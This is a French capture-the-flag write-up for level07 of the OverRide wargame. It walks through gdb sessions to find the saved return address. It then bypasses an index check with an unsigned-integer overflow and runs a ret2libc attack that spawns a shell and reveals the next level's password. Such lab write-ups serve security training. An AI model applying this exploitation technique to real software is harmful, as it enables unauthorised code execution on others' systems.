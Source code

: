 ## LEVEL 07

Le programme nous informe qu'il est possible d'utiliser 3 commandes :

 - store
 - read
 - quit

Store permet de stocker un int dans un index donné.
Read permet de lire la valeur d'un index donné.
Quit permet de quitter le programme.

Néanmoins le programme nous empêche de stocker des valeurs dans certains index.
En effet les **index % 3 = 0** ne peuvent être modifiées.

Read nous permet de lire l'index d'une case mémoire et rien ne nous empêche de lire une case mémoire en dehors du programme. On peut donc essayer de trouver l'adresse du tableau que l'on peut modifier, puis l'adresse de l'eip.

Pour ça on créé un breakpoint lors de l'appel de la fonction read_number().

```
(gdb) b read_number
Breakpoint 2 at 0x80486dd
(gdb) r
Starting program: /home/users/level07/level07
----------------------------------------------------
  Welcome to wil's crappy number storage service!
----------------------------------------------------
 Commands:
    store - store a number into the data storage
    read  - read a number from the data storage
    quit  - exit the program
----------------------------------------------------
   wil has reserved some storage :>
----------------------------------------------------

Input command: read

Breakpoint 2, 0x080486dd in read_number ()
(gdb) x $ebp+0x8
0xffffd540:     0xffffd564
```

Bien, nous avons alors l'adresse d'où est le tableau et l'adresse du tableau.

Pour nous permettre de trouver l'index de notre tableau il faut donc faire la différence entre ces deux adresses.

    0xffffd540 - 0xffffd564 = -36
    -36 / 4 = -9
Puisque notre tableau est un tableau d'int on le divise alors par 4.
On trouve alors l'index de l'adresse du tableau. On peut donc récupérer l'adresse associé en utilisant le programme.

    Input command: read
    Index: -9
    Number at data[4294967287] is 4294956388
    Completed read command successfully

   4294956388 = 0xffffd564
   
On a l'adresse du tableau, maintenant essayons de trouver l'adresse de l'eip au moment du read_number().

Cette fonction ce trouve à main+520. On place alors un breakpoint à cette endroit et on print les frame infos.

```
(gdb) b *main+520
Breakpoint 1 at 0x804892b
(gdb) r
Starting program: /home/users/level07/level07
...

Input command: read

Breakpoint 1, 0x0804892b in main ()
(gdb) i f
Stack level 0, frame at 0xffffd730:
 eip = 0x804892b in main; saved eip 0xf7e45513
 Arglist at 0xffffd728, args:
 Locals at 0xffffd728, Previous frame's sp is 0xffffd730
 Saved registers:
   ebx at 0xffffd71c, ebp at 0xffffd728, esi at 0xffffd720, edi at 0xffffd724, eip at 0xffffd72c
```

On à l'adresse de l'eip : 0xffffd72c.

On peut alors faire une soustraction entre l'eip et l'adresse de notre tableau pour trouver l'index de la même manière que l'index du tab.

    0xffffd72c - 0xffffd564 = 456
    456 / 4 = 114

On à alors l'index de notre eip.

```
Input command: read
 Index: 114
 Number at data[114] is 4158936339
 Completed read command successfully
```

4158936339 = 0xf7e45513

On check grace au breakpoint :

    (gdb) x 0xffffd72c
    0xffffd72c:     0xf7e45513

Bien, tout semble correct.

On va alors utiliser une ret2libc attack pour lancer un /bin/sh.

```
(gdb) info function system
All functions matching regular expression "system":

Non-debugging symbols:
0xf7e6aed0  __libc_system
...
```
On a l'adresse de system() : **0xf7e6aed0  =  4159090384**

On va devoir alors modifier l'index 114 avec ce nombre. Le problème est que l'index 114 est protégé. 

    114 % 3 = 0
On va donc utiliser un max uint overflow pour atteindre l'index que l'on veut.
```
(max_uint / 4) + 114
(4294967295 / 4) + 114
1073741824 + 114
1073741938
```
**1073741938** % 3 = 1 donc notre résultat passe la protection !

Il nous reste plus qu'a trouver l'adresse de /bin/sh.

```
(gdb) info proc map
process 1757
Mapped address spaces:

        Start Addr   End Addr       Size     Offset objfile
         0x8048000  0x8049000     0x1000        0x0 /home/users/level07/level07
         0x8049000  0x804a000     0x1000     0x1000 /home/users/level07/level07
         0x804a000  0x804b000     0x1000     0x2000 /home/users/level07/level07
        0xf7e2b000 0xf7e2c000     0x1000        0x0
        0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so
        0xf7fcc000 0xf7fcd000     0x1000   0x1a0000 /lib32/libc-2.15.so
        0xf7fcd000 0xf7fcf000     0x2000   0x1a0000 /lib32/libc-2.15.so
        0xf7fcf000 0xf7fd0000     0x1000   0x1a2000 /lib32/libc-2.15.so
        0xf7fd0000 0xf7fd4000     0x4000        0x0
        0xf7fda000 0xf7fdb000     0x1000        0x0
        0xf7fdb000 0xf7fdc000     0x1000        0x0 [vdso]
        0xf7fdc000 0xf7ffc000    0x20000        0x0 /lib32/ld-2.15.so
        0xf7ffc000 0xf7ffd000     0x1000    0x1f000 /lib32/ld-2.15.so
        0xf7ffd000 0xf7ffe000     0x1000    0x20000 /lib32/ld-2.15.so
        0xfffdd000 0xffffe000    0x21000        0x0 [stack]
(gdb) find 0xf7e2c000, 0xf7fcc000, "/bin/sh"
0xf7f897ec
1 pattern found.
```
On l'a : **0xf7f897ec = 4160264172**

Pour finir on utilise l'index 116 pour les argument de notre system(), qui est donc à eip + 2.

Maintenant on peut exploiter le programme :

```
level07@OverRide:~$ ./level07
----------------------------------------------------
  Welcome to wil's crappy number storage service!
----------------------------------------------------
 Commands:
    store - store a number into the data storage
    read  - read a number from the data storage
    quit  - exit the program
----------------------------------------------------
   wil has reserved some storage :>
----------------------------------------------------

Input command: store
 Number: 4159090384     //// system()
 Index: 1073741938	//// 114 avec max_uint overflow
 Completed store command successfully
Input command: store
 Number: 4160264172	//// /bin/sh
 Index: 116		//// index de eip+2 (arguments).
 Completed store command successfully
Input command: quit
$ whoami
level08
$ cat /home/users/level08/.pass
7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC
```
